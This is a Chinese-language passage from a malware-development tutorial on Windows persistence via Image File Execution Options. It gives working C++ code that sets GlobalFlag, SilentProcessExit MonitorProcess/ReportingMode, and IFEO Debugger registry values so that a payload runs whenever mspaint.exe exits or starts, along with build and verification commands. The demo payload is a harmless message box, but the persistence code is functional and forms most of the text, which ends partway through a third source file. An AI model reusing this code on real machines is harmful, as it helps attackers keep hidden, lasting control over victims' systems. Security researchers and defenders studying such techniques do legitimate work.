\newpage
\subsection{恶意软件开发：持久化（第 10 部分）——使用映像文件执行选项（简单的 C++ 示例）}

### 映像文件执行选项

{width="80%"}

IFEO 让开发者能够把调试器附加到某个应用程序或进程上。

这使得调试器／应用程序能够与被调试的应用程序并发运行。

如何设置这个特性呢？

我们可以在另一个应用程序静默退出时启动一个进程／程序。

应用程序的静默退出意味着该应用程序以以下两种方式之一被终止：1. 通过调用 `ExitProcess` 自行终止；2. 另一个进程通过调用 `TerminateProcess` 终止被监视的进程。

这可以通过以下注册表项来配置：

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\SilentProcessExit`

### 实战示例

我们让恶意软件在 Microsoft 画图（`mspaint.exe`）静默退出时运行一次。

那么，假设我们有这样一个「恶意软件」（`hack.cpp`）：

```cpp
/*
hack.cpp
evil app for windows persistence via IFEO
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;

```

如你所见，和往常一样，我使用的是「meow-meow」消息框「恶意软件」=..=

然后，创建用于修改注册表的持久化脚本（`pers.cpp`）：

```cpp
/*
pers.cpp
windows persistence via IFEO (GlobalFlag)
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  DWORD gF = 512;
  DWORD rM = 1;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\mspaint.exe";

  // silent exit
  const char* silent = "SOFTWARE\\Microsoft\\Windows 
  NT\\CurrentVersion\\SilentProcessExit\\mspaint.exe";

  // evil app
  const char* exe = "Z:\\2022-09-10-malware-pers-10\\hack.exe";

  // GlobalFlag
  // LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\mspaint.exe", 0 , KEY_WRITE, &hkey);
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
  // create new registry key
  // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
  // Execution Options\mspaint.exe" /v GlobalFlag /t REG_DWORD /d 512
  RegSetValueEx(hkey, (LPCSTR)"GlobalFlag", 0, REG_DWORD, (const BYTE*)&gF, sizeof(gF));
  RegCloseKey(hkey);
  }

  // res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)
  //"SOFTWARE\\Microsoft\\Windows 
  //NT\\CurrentVersion\\SilentProcessExit\\mspaint.exe", 0 , KEY_WRITE, &hkey);
  res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)silent, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
  // create new registry key
  // reg add "HKLM\SOFTWARE\Microsoft\Windows 
  // NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t 
  // REG_DWORD /d 1
  // reg add "HKLM\SOFTWARE\Microsoft\Windows 
  // NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d 
  // "Z:\..\hack.exe"
  RegSetValueEx(hkey, (LPCSTR)"ReportingMode", 0, REG_DWORD, 
  (const BYTE*)&rM, sizeof(rM));
  RegSetValueEx(hkey, (LPCSTR)"MonitorProcess", 0, REG_SZ, 
  (unsigned char*)exe, strlen(exe));
  RegCloseKey(hkey);
  }

  return 0;

```

首先，我们在 `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion` 下创建了 SilentProcessExit 项，然后通过添加 GlobalFlag 启用了静默进程退出监视特性：

```cpp
//...

LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);

//...
//...

// reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
// Execution Options\mspaint.exe" /v GlobalFlag /t REG_DWORD /d 512
RegSetValueEx(hkey, (LPCSTR)"GlobalFlag", 0, REG_DWORD, 
(const BYTE*)&gF, sizeof(gF));
//...
```

通过把 MonitorProcess 设置为 `...\hack.exe`、把 ReportingMode 设置为 1，现在 `mspaint.exe` 的每一次静默退出都会触发我们的「恶意软件」`hack.exe` 的执行：

```cpp
//...

RegSetValueEx(hkey, (LPCSTR)"ReportingMode", 0, REG_DWORD, 
(const BYTE*)&rM, sizeof(rM));
RegSetValueEx(hkey, (LPCSTR)"MonitorProcess", 0, REG_SZ, (unsigned char*)exe, 
strlen(exe));
```

### 演示

我们来看看一切的实际运行。

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}

运行它，只是为了检查正确性：

{width="80%"}

那么，先检查注册表项：

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" /s
```

{width="80%"}

还有 SilentProcessExit：

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit" /s
```

{width="80%"}

如你所见，正如预期的那样，我们的目标应用程序缺少一些注册表项。

{width="80%"}

{width="80%"}

好了，现在我们来编译：

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}

然后运行我们的持久化脚本 `pers.exe`，再检查一次注册表项：

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" /s
```

{width="80%"}

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit" /s
```

{width="80%"}

最后，再次运行 `mspaint.exe`：

{width="80%"}

{width="80%"}

然后关闭它：

{width="80%"}

ReportingMode 注册表项会启用 Windows 错误报告进程（`WerFault.exe`），它将作为 MonitorProcess 项值 `hack.exe` 的父进程：

{width="80%"}

`WerFault.exe` —— 用于跟踪与操作系统、Windows 功能以及应用程序相关的错误。

### IFEO 调试器类型

IFEO 还有另一种通过 debugger 项的实现方式。

只需在这个注册表项中为受害进程创建一个调试器：

然后只需要把恶意应用程序存放在 System32 中。

因此源代码很简单，看起来像这样：

```cpp
/*
pers2.cpp
windows persistence via IFEO 2(Debugger)
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  DWORD gF = 512;
  DWORD rM = 1;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\mspaint.exe";

  // evil app
  const char* exe = "hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
  // create new registry key
  // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
  // Execution Options\mspaint.exe" /v Debugger /d "hack.exe"
  RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, 
  strlen(exe));
